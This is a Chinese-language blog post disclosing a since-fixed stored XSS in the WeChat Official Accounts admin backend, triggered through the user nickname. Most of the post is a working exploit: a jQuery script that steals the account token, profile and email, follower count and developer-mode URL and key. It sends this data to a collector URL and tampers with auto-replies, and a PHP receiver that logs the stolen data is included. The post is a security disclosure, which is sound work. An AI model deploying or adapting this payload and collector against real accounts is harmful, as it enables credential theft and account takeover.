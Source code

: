 ```yaml
---
layout: post
title: 微信公众号后台跨站漏洞 EXP (已修复)
---
```


{{ page.title }}
================
<p class="date">{{ page.date | date_to_string }} - evi1m0</p>


#### Vul Description

 - 提交时间：2014-08-19 15:04:14
 - 修复时间：2014-08-19 20:00:11
 
问题存在于微信公众号后台查看消息时用户名处的触发。


#### Bypass nickname length limit

微信对用户名进行了长度限制，使用安卓版微信可以绕过长度限制，这里测试使用的红米手机微信5.2：

![wechat_version](/images/FB10EC57-738D-4FB1-9A3D-E85E2E1EFBD8.png)


#### Detailed

绕过名字长度后，将微信用户名修改为：```test/*<img/src=@/onerror=alert(1)>```

回复公众号，后台查看触发：

![wechat_xss_demo1](/images/FEEF04DC-70B4-4B61-935D-482D1C34ABB2.png)

之后我们考虑如何嵌入外部JS以方便的调试接下来要编写的Exploit，微信公众号后台使用https，需要引用外部的https js资源才行，之后我找到了：[https://bitly.com/shorten/](https://bitly.com/shorten/)

使用bitly将放置在github的https js资源连接进行网址缩短，例如：

	https://gist.githubusercontent.com/Evi1m0/497330da6935a30/raw/0c8ab3d6fec57c8052262e85c315549f1d0e869a/1.js
	
连接缩短：bit.ly/1dPaWIx ，生成后默认为http修改为https即可。

最后嵌入JS的长度为：

![wechat_xss_demo2](/images/258F0D1C-F712-4459-8040-B5CF7B641278.png)

#### Exploit

 - 获取公众号注册信息、登录邮箱等个人信息
 - 获取公众号粉丝数量
 - 普通模式则篡改自动回复的内容
 - 开发模式则偷取Key值和连接地址
 - 获取Token
 - More

```Wechat-exp.js```: 微信公众号后台使用jQuery，使用jQuery编写此exp。

{% highlight javascript %}
/*
 * mp.weixin.qq.com exp.js
 * author: Evi1m0 & Chichou
 * date: 20140313
 */

(function() {
    // 在IE7以下支持JSON格式化
    if (typeof JSON.stringify !== 'function') {
        JSON.stringify = function(object) {
            var array = [];
            for (var i in object) {
                var s = object[i], v = (typeof s == 'object' && s != null) ? JSON.stringify(s) :
                    (/^(string|number)$/.test(typeof s) ? "'" + s + "'" : s);
                array.push("'" + i + "':" + v);
            }
            return '{' + array.join(',') + '}';
        }
    }

    // send data
    var send = function(item, data) {
        if(typeof data == 'object')
            data = JSON.stringify(data);
        new Image().src = ["http://localhost/wxprobe.php?subject=wechat&uin=", wx.data.uin, "&item=", item, "&data=", data].join('');
    }

    // 公号信息
    var user = {
        token: wx.data.t,
        uin: wx.data.uin,
        name: wx.data.user_name
    };
    send('id', user);

    // 粉丝人数
    $.get('/cgi-bin/home?t=home/index&lang=zh_CN&token=' + user.token, function(data) {
      var dom = $(data);
      var fans={};
      var fans = $('.number')[2].innerHTML;
      send('fans', fans);
    });

    // 详细资料
    $.get('/cgi-bin/settingpage?t=setting/index&action=index&token=' + user.token, function(data) {
        var dom = $(data);
        var profile = {};
        dom.find('li.account_setting_item .tips,li.account_setting_item .desc').remove();
        dom.find('li.account_setting_item').each(function(i, e) {
            profile[$.trim($(e).find("h4").text())] = $.trim($(e).find('.meta_content').text());
        });
        send('profile', profile);
    });

    // 开发模式
    $.get('/cgi-bin/advanced?action=dev&t=advanced/dev&token=' + user.token, function(data) {
        var dom = $(data); data = dom.find("#js_container_box .frm_input_box");
        var dev = {}
        $.each(['url', 'token'], function(i, e) {
            dev[e] = $.trim(e.innerHTML);
        });
        send('dev', dev);
    });

    //普通模式
    $.get('/cgi-bin/autoreply?t=ivr/reply&action=beadded&token=' + user.token, function(data) {
        var form = {
            token: wx.data.t,
            lang: wx.data.lang,
            random: Math.random(),
            f: 'json',
            ajax: 1,
            cgi: 'setreplyrule',
            fun: 'save',
            t: 'ajax-response',
            content: 'Attack Content'
        };

        var keyword = {'replytype': 'replytype : "', 'ruleid': 'rule_id : "'};
        for(var i in keyword) {
            if(data.indexOf(keyword[i]) === -1) {
                form[i] = '';
            } else {
                var left = data.indexOf(keyword[i]) + keyword[i].length, right = data.indexOf('"', left);
                form[i] = data.substring(left, right);
            }
        }

        //篡改
        $.post('/cgi-bin/setreplyrule', form);
    });
})();
{% endhighlight %}


```wxprobe.php```: 服务端接受获取内容

    <?php

    /*
     * Wechat probe
     * author: <evi1m0#ff0000.cc>
     * 20140313
     */

    @header("Content-Type:text/html;charset=utf8");
    if (!(isset($_GET['subject']) && $_GET['subject'] === 'wechat')) die;

    //获取信息
    $uin = urldecode($_GET['uin']);
    $item = urldecode($_GET['item']);
    $data = urldecode($_GET['data']);

    //判断创建
    if(!file_exists('./wxdata.html')){
        $fp = fopen('./wxdata.html', 'a+');
        fwrite($fp,'<head><meta http-equiv="Content-Type" Content="text/html; charset=utf8" /> <title>wxdata</title></head>');
    }
    $fp = fopen('./wxdata.html', 'a+');
    fwrite($fp, htmlspecialchars($uin). "| <br>item: ". htmlspecialchars($item). "<br>Data: ". htmlspecialchars($data). "<hr><br>");
    fclose($fp);

    ?>